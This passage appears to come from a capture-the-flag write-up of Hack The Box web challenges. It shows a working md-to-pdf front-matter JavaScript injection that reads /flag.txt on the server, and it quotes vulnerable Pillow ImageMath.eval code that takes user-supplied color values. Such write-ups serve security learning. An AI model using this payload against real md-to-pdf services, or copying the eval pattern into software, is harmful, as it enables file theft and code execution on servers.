 ```
        "nodemon": "^1.19.1"
    }
}
```

[https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

That issue already shows the payload, We could make use of that to implement it to this challenge.

We tweaked the payload little bit and we managed to get the **FLAG**

```markdown
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').toString()}"; display: block }`,
}
---
```

![](blinker-3.png)

**HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**


### Amidst Us (300 points)

The value of this challenge is 300 points and +500 players have solved this challenge.

![](amidst-1.png)

We're given a website with a feature for changing the color of the uploaded image.

![](amidst-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

Same with before, we checked out the _dependency_ first and find out the application uses an obsolete `Pillow` version. In this version, we could find an issue on GitHub.

[https://github.com/python-pillow/Pillow/pull/5923](https://github.com/python-pillow/Pillow/pull/5923)

And in the _source code_ `challenge/application/util.py#L:16`, the parameter coior is passed into `ImageMath.eval()` function.

```python
alpha = ImageMath.eval(
            f'''float(
                max(
                max(
                    max(
                    difference1(red_band, {color[0]}),
                    difference1(green_band, {color[1]})
                    ),
                    difference1(blue_band, {color[2]})
                ),
                max(
                    max(
                    difference2(red_band, {color[0]}),
                    difference2(green_band, {color[1]})
                    ),
                    difference2(blue_band, {color[2]})
                )
                )
            )''',
            difference1=lambda source, color: (source - color) / (255.0 - color),
```